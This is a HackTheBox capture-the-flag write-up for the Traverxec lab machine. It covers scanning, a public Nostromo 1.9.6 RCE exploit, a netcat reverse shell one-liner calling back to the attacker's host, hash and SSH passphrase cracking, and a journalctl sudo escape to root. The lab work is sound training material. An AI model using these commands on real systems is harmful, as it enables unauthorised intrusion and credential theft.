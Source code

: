 # <center>Traverxec  - HackTheBox WriteUp</center>
![info_card](/images/traverxec/traverxec/info_card.png)
## Enumeration & Information Gathering 

#### Scanning
>Nmap done: 1 IP address (0 hosts up) scanned in 2.14 seconds
root@kali:/var/www/html/pub# nmap -T4 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 10:39 EDT
Nmap scan report for 10.10.10.165
Host is up (0.054s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
#### Service Enumeration

Home page:
![home_page](/images/traverxec/home_page.png)

By visiting pages on the site such as robots.txt, the veriosn of the HTTP App is revealed

![version](/images/traverxec/version.png)

Exploit search: nostromo 1.9.6 githhib
## Exploitation
https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

Let's try a executing a command:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'whoami'
```

Now on to Reverse Shell

#### Foothold

Set up a listener:
```
nc -lnvp 1234
```

Grab netcat reverse shell payload from Pentest Monkey a use as payload:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1234 >/tmp/f'
```
#### Post Exploitation Enumeration

Enumerating the file system of Nostromo

![post enum](/images/traverxec/post enum.png)

>www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
> david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Cracking the passowrd using hashcat

```
hashcat64.exe -m 500 $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/ c:\Users\admin\Downloads\rockyou.txt --force
```

![cracked](/images/traverxec/cracked.png)
david:Nowonly4me

Tried loging in via SSH with David User credentials but the password is not accepted.
checking SSHD config we see that password authentication is not allowed.We therefore need to find a private key. 

![sshd_config](/images/traverxec/sshd_config.png)

After much enumeration we go back to the nhttpd.conf file and remember that home dir is set to **/home** and **public_www**. The **serveradmin** is also set as **david@traverxec.htb** therefore we can probably navigate to david's home directory.

Turns out that we can, but we can't access files such as .bashrc or .ssh folder

![david_home](/images/traverxec/david_home)

We try navigating to the public_www folder on the shell and we are successful

We grab the gz file, extract it and ssh with the private key.

![ssh_gz](/images/traverxec/ssh_gz.png)

But we are blocked by a passphrase and the initial password **Nowonly4me** doesn't work here 

Cracking SSH passphrase with John
![crack_ssh](/images/traverxec/crack_ssh)


## Privilege Escalation

SSH using David's credentials we are able to Login.
Enumerating the home directory we find a shell script that runs a journalctl with sudo. 
![server_status](/images/traverxec/server_status)

running the command as is in the script works okay

This probably helps us realize that we have sudo NOPASSWORD set for running that command, we couldn't see that  using sudo -l becase we still don't know the user pass for David.

Next we visit GTFOBin https://gtfobins.github.io/gtfobins/journalctl/

We see we can break out of the binary much like the less/nano way
To do this we can either make our terminal window very small to force break output of journalctl OR we can just resize our terminal using `stty rows [number]`

Run the command and enter !/bin/sh

![root](/images/traverxec/root.png)

**Extra:** 

Top References:
1.    https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

2.    https://gtfobins.github.io/gtfobins/journalctl/
